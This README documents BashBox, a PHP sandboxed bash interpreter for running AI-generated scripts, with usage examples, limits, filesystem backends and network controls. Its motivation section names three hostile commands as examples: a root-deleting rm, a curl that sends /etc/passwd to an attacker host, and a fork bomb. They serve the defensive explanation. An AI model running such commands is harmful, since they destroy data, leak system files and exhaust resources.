

<p align="center">
    
</p>

<p align="center">
    <a href="https://github.com/shipfastlabs/bashbox/actions"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
    <a href="https://packagist.org/packages/shipfastlabs/bashbox"></a>
</p>

**BashBox** is a sandboxed bash interpreter for AI agents, written in pure PHP 8.4+. It does not use `proc_open`, `exec`, or `shell_exec`. Every command is a PHP class, every file lives in a virtual filesystem, and every execution has hard limits.

> **Requires [PHP 8.4+](https://php.net/releases/)**


## Why BashBox?

Imagine you are building an AI coding assistant. A user asks: "Can you analyze my logs and find all error messages from the last hour?"

Your AI generates a bash script:

```bash
cat /var/log/app.log | grep "ERROR" | awk '{print $1, $2, $5}' | sort | uniq -c | sort -rn
```

**The problem:** Running user-generated bash code on your servers is dangerous. One malicious script could delete critical files (`rm -rf /`), exfiltrate sensitive data (`curl -d @/etc/passwd attacker.com`), launch denial-of-service attacks (`:(){ :|:& };:`), or access internal network resources (SSRF attacks).

**Traditional solutions** use containers or VMs, but those are slow, resource-heavy, and complex to orchestrate.

**BashBox** takes a different approach. It implements a complete bash interpreter in pure PHP with zero system calls. Think of it as a "bash emulator" that gives you:

- **Instant execution** with no container startup time
- **True isolation** with no access to your real filesystem or network unless you explicitly allow it
- **Fine-grained control** to limit commands, loops, memory, and execution time
- **Real bash semantics** including pipes, fd redirections (`2>&1`, `exec 3>file`), here-docs, process substitution, arrays, functions, control flow, parameter expansion, and `set`/`shopt` options

Perfect for AI agents, code execution platforms, CI/CD systems, or anywhere you need to run untrusted bash scripts safely.

## Installation

Install BashBox using [Composer](https://getcomposer.org):

```bash
composer require shipfastlabs/bashbox
```

## Usage Examples

### Basic Script Execution

```php
use BashBox\Bash;

$bash = new Bash;

$result = $bash->exec('echo "Hello, World!"');

$result->stdout;   // "Hello, World!\n"
$result->exitCode; // 0
```

### Variables and Pipes

```php
$result = $bash->exec('
    NAME="BashBox"
    echo "Hello, $NAME" | tr a-z A-Z
');

$result->stdout; // "HELLO, BASHBOX\n"
```

### Write and Read Files

```php
$bash->exec('echo "hello" > greeting.txt');
$bash->exec('cat greeting.txt'); // "hello\n"

// Or directly via PHP:
$bash->writeFile('/home/user/data.txt', 'some content');
$bash->readFile('/home/user/data.txt'); // "some content"
```

### Pre-loaded Files

```php
use BashBox\Bash;
use BashBox\BashOptions;

$bash = new Bash(new BashOptions(
    initialFiles: [
        '/home/user/config.json' => '{"key": "value"}',
        '/home/user/script.sh' => 'echo "running"',
    ],
));

$result = $bash->exec('cat config.json');
$result->stdout; // '{"key": "value"}'
```

### Environment Variables

```php
$bash = new Bash(new BashOptions(
    env: ['APP_ENV' => 'production', 'DEBUG' => 'false'],
));

$result = $bash->exec('echo $APP_ENV');
$result->stdout; // "production\n"
```

### Control Flow

```php
$result = $bash->exec('
    for i in 1 2 3; do
        echo "Item $i"
    done
');

$result->stdout; // "Item 1\nItem 2\nItem 3\n"
```

```php
$result = $bash->exec('
    if [ -f greeting.txt ]; then
        echo "exists"
    else
        echo "not found"
    fi
');
```

### Functions

```php
$result = $bash->exec('
    greet() {
        echo "Hello, $1!"
    }
    greet World
    greet PHP
');

$result->stdout; // "Hello, World!\nHello, PHP!\n"
```

### Stdin

```php
use BashBox\ExecOptions;

$result = $bash->exec('grep "error"', new ExecOptions(
    stdin: "line 1\nerror found\nline 3\n",
));

$result->stdout; // "error found\n"
```

### Execution Limits

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Limits;

$bash = new Bash(new BashOptions(
    limits: new Limits(
        maxCommandCount: 100,
        maxLoopIterations: 500,
        maxOutputSize: 1024 * 1024, // 1MB
        maxCallDepth: 10,
    ),
));
```

Going over a limit throws `BashBox\Exceptions\ExecutionLimitException`; the filesystem quota instead fails the write with `No space left on device`, as a full disk would. `ExecOptions` can pass different limits for one `exec()`, except the filesystem quota, which is fixed when `Bash` is built.

| Limit | Default | What it caps |
|---|---|---|
| `maxCallDepth` | 100 | Nested shell function calls |
| `maxCommandCount` | 10,000 | Commands run in the whole script |
| `maxLoopIterations` | 10,000 | Iterations of any one loop |
| `maxGlobOperations` | 100,000 | Directory entries read for one pathname expansion |
| `maxOutputSize` | 10 MB | Bytes of stdout plus stderr, in total and in any one capture (`$(...)`, a pipe stage) |
| `maxStringLength` | 10 MB | Bytes in a variable's value or a word's expansion |
| `maxSubstitutionDepth` | 50 | Nested `$(...)`, `<(...)`, `eval`, `source` and trap texts |
| `maxBraceExpansionResults` | 10,000 | Words one brace expansion produces |
| `maxArrayElements` | 100,000 | Elements in an array, and words one word expands to |
| `maxFileDescriptors` | 1024 | The highest file descriptor number plus one |
| `maxSedIterations` | 100,000 | Branches (`b`, `t`, `T`) one sed run may take |
| `maxInputSize` | 1 MB | Bytes of script text |
| `maxTokens` | 100,000 | Tokens in one script text |
| `maxAstDepth` | 500 | Nesting of the parsed script |
| `maxHereDocSize` | 1 MB | Bytes in a here-document, before and after expansion |
| `maxPipelineDepth` | 100 | Commands in one pipeline |
| `maxFilesystemBytes` | 64 MB | Bytes the filesystem may hold (see [quota](#filesystem-quota)) |
| `maxFilesystemFiles` | 10,000 | Files, directories and links the filesystem may hold |

### Custom Commands

```php
use BashBox\Commands\AbstractCommand;
use BashBox\Commands\CommandContext;
use BashBox\ExecResult;

class MyCommand extends AbstractCommand
{
    public function getName(): string
    {
        return 'mycommand';
    }

    public function execute(array $args, CommandContext $ctx): ExecResult
    {
        return $this->success('Hello from my command!');
    }
}

$bash->registerCommand(new MyCommand);
$result = $bash->exec('mycommand');
$result->stdout; // "Hello from my command!"
```

### Filesystem Backends

BashBox ships with four filesystem backends:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Filesystem\InMemoryFs;
use BashBox\Filesystem\OverlayFs;
use BashBox\Filesystem\ReadWriteFs;
use BashBox\Filesystem\MountableFs;

// In-memory (default) — nothing touches disk
$bash = new Bash;

// Overlay — reads from a real directory, writes stay in memory
$bash = new Bash(new BashOptions(
    fs: new OverlayFs('/path/to/project'),
));

// Read-write — real disk I/O, confined to the given root
$bash = new Bash(new BashOptions(
    fs: new ReadWriteFs('/path/to/sandbox'),
));

// Mountable — combine multiple backends at different paths
$mount = new MountableFs(new InMemoryFs);
$mount->mount('/data', new ReadWriteFs('/real/data'));
$bash = new Bash(new BashOptions(fs: $mount));
```

All backends implement the same `FileSystemInterface`, including:

- File reads, writes, appends, copies, moves, and deletes
- Directory creation and directory listing with file-type metadata
- `stat` / `lstat` metadata via `FsStat`
- `chmod`, `utimes`, hard links, symbolic links, `readlink`, and `realpath`

Backend behavior:

- `InMemoryFs` is fully virtual and never touches disk
- `OverlayFs` reads from a real directory and keeps writes in an in-memory copy-on-write layer
- `ReadWriteFs` reads and writes directly to disk inside the configured root
- `MountableFs` combines multiple backends under different mount points and supports cross-mount copies

`Bash` keeps `/dev` in memory on top of any backend, so nothing under it reaches the backend (a `ReadWriteFs` root never gets a `dev` directory). `/dev/null` reads empty and discards writes, and a symlink to it behaves the same. Process substitution (`<(...)`, `>(...)`) uses files under `/dev/fd` that are removed when the command finishes. A backend's own `/dev` is hidden.

#### Filesystem Quota

Every backend takes a `DiskQuota` (default 64 MB and 10,000 entries); writing past it fails with `No space left on device`. `Bash` builds its default `InMemoryFs` and its `/dev` with one quota from `Limits::$maxFilesystemBytes` and `$maxFilesystemFiles`; pass your own when you bring a backend:

```php
use BashBox\Filesystem\DiskQuota;

$bash = new Bash(new BashOptions(
    fs: new ReadWriteFs('/path/to/sandbox', diskQuota: new DiskQuota(maxBytes: 100 * 1024 * 1024, maxFiles: 50_000)),
));
```

- `InMemoryFs` counts file contents, symlink targets and entry names, initial files included
- `OverlayFs` counts its in-memory layer, so a disk file counts once it is changed (copied up)
- `ReadWriteFs` counts what the sandbox adds to the disk: bytes written less bytes removed, and entries created less entries removed. Files already in the root don't count until they are rewritten or removed, and removing them frees room
- `MountableFs` has no quota of its own; each mounted backend keeps its own

Example:

```php
$bash = new Bash(new BashOptions(
    fs: new ReadWriteFs('/path/to/sandbox'),
));

$bash->exec('echo "#!/bin/bash" > /script.sh');
$bash->getFilesystem()->chmod('/script.sh', 0755);

$stat = $bash->getFilesystem()->stat('/script.sh');
$stat->mode;  // 0755
$stat->size;  // file size in bytes
```

### Network Access

Network is **off by default**. Enable it by passing a `NetworkConfig`:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Network\NetworkConfig;

$bash = new Bash(new BashOptions(
    network: new NetworkConfig(
        allowedUrlPrefixes: ['https://api.example.com/'],
        allowedMethods: ['GET', 'POST'],
        denyPrivateRanges: true,  // SSRF protection
        maxResponseSize: 5 * 1024 * 1024, // 5MB
        maxRedirects: 10,
        timeout: 10,
    ),
));

$result = $bash->exec('curl -s https://api.example.com/data');
```

#### Unrestricted Network Access

For scenarios where you need full internet access without URL or method restrictions, use the `dangerouslyAllowFullInternetAccess` option:

```php
use BashBox\Bash;
use BashBox\BashOptions;
use BashBox\Network\NetworkConfig;

$bash = new Bash(new BashOptions(
    network: new NetworkConfig(
        dangerouslyAllowFullInternetAccess: true,
        // denyPrivateRanges still protects against SSRF attacks
        denyPrivateRanges: true,
        maxResponseSize: 5 * 1024 * 1024, // 5MB
        maxRedirects: 10,
        timeout: 10,
    ),
));

// Now any URL and HTTP method is allowed
$result = $bash->exec('curl -X POST https://any-website.com/api');
```

> **⚠️ SECURITY WARNING:** The `dangerouslyAllowFullInternetAccess` option disables URL prefix and HTTP method restrictions. Only use this in trusted environments where you control the input. SSRF protection (`denyPrivateRanges`) is still applied unless explicitly disabled.

When network is configured, the `curl` command becomes available. Without it, `curl` does not exist.

`denyPrivateRanges` (on by default) refuses loopback, private, link-local, CGNAT, multicast, documentation and other non-public IPv4 and IPv6 ranges, including IPv4 addresses embedded in IPv4-mapped, NAT64 and 6to4 IPv6 addresses. It checks the URL's host and the address curl actually connects to, so DNS tricks can't get around it.

An empty `allowedUrlPrefixes` list denies all URLs — set `dangerouslyAllowFullInternetAccess: true` to allow any URL. Like real curl, `curl` follows redirects only with `-L`; every redirect target is re-validated against the allow-list and private-IP rules before it is requested, and credential headers (`Authorization`, `Cookie`) are dropped on cross-origin redirects.

### Sandbox API

A simpler API for quick use:

```php
use BashBox\Sandbox\Sandbox;

$sandbox = Sandbox::create();

$sandbox->writeFiles([
    '/home/user/app.sh' => 'echo "running"',
]);

$result = $sandbox->runCommand('source app.sh');
$result->stdout;   // "running\n"
$result->exitCode; // 0

$sandbox->readFile('/home/user/app.sh'); // 'echo "running"'
```

### Shell Semantics

- Only exported variables reach commands: after `A=1`, `printenv A` prints nothing until `export A` (or `A=1 printenv A`). Variables from `BashOptions::$env` and `ExecOptions::$env` are exported.
- `env` prints the environment, or runs a command with a changed one: `env -i`, `env -u NAME`, `env NAME=value cmd args`. Only registered commands can be run; there is no `sh` or `bash` binary.
- A script that doesn't parse runs nothing: `exec()` returns exit code 2 with bash's message on stderr (`bash: syntax error near unexpected token ...`) rather than throwing. `eval` and `source` of unparsable text return 2 the same way.

### Available Commands

BashBox includes 51 built-in commands:

| Category | Commands |
|---|---|
| **Output** | `echo`, `printf`, `cat`, `head`, `tail`, `tee`, `yes` |
| **Files** | `ls`, `pwd`, `mkdir`, `rmdir`, `rm`, `cp`, `mv`, `touch`, `ln`, `chmod`, `stat`, `du`, `find`, `tree`, `mktemp`, `realpath`, `basename`, `dirname` |
| **Text** | `grep`, `sed`, `sort`, `uniq`, `wc`, `cut`, `tr`, `rev` |
| **Utils** | `xargs`, `env`, `printenv`, `seq`, `sleep`, `test`, `[`, `true`, `false` |
| **Info** | `date`, `which`, `whoami`, `hostname` |
| **Encoding** | `base64`, `od`, `md5sum`, `sha1sum`, `sha256sum` |
| **Network** | `curl` (only when network is configured) |

Shell builtins: `cd`, `pushd`, `popd`, `dirs`, `export`, `unset`, `local`, `declare`, `typeset`, `readonly`, `set`, `shopt`, `source`, `.`, `eval`, `exec`, `read`, `mapfile`, `readarray`, `break`, `continue`, `return`, `exit`, `shift`, `getopts`, `let`, `:`, `type`, `command`, `builtin`, `enable`, `hash`, `alias`, `unalias`, `trap`, `umask`, `help`, and more

### Security

BashBox is built for untrusted input:

- No `proc_open`, `exec`, `shell_exec`, `system`, or `passthru` — anywhere
- All filesystem access goes through `FileSystemInterface`
- Path traversal and null-byte injection are blocked
- `OverlayFs` denies symlinks by default when reading from real directories
- Filesystem writes are capped by a quota of bytes and entries, so a script can't fill memory or the disk
- Network is off by default; when enabled, every request and redirect target goes through URL prefix checks, method allow-lists, SSRF protection, response-size caps, and timeouts
- Every execution has gas counters for loops, commands, output, and recursion

## Contributing

### Getting Started

Clone the repo and install dependencies:

```bash
git clone git@github.com:shipfastlabs/bashbox.git
cd bashbox
composer install
```

### Running Tests

BashBox uses [Pest](https://pestphp.com) for testing, [PHPStan](https://phpstan.org) for static analysis, [Pint](https://laravel.com/docs/pint) for code style, [Rector](https://getrector.com) for automated refactoring, and [Peck](https://github.com/peckphp/peck) for typo checking (it needs `aspell` installed).

Run everything at once:

```bash
composer test
```

Or run each tool individually:

```bash
composer test:unit          # Pest — unit tests, 100% line coverage required
composer test:type-coverage # Pest — 100% type coverage required
composer test:types         # PHPStan — static analysis (level 10)
composer test:lint          # Pint — code style check
composer test:refactor      # Rector — dry-run refactoring suggestions
composer test:typos         # Peck — spell check class names, methods, etc.
```

To auto-fix code style and apply refactors:

```bash
composer lint     # Pint — fix code style
composer refactor # Rector — apply refactors
```

### Before Submitting a PR

Make sure the full suite passes:

```bash
composer test
```

This runs lint, static analysis, and tests — in that order. All three must pass. Run `composer test:refactor` and `composer test:typos` too.

---

**BashBox** was created by **Pushpak Chhajed** under the **[MIT license](https://opensource.org/licenses/MIT)**.
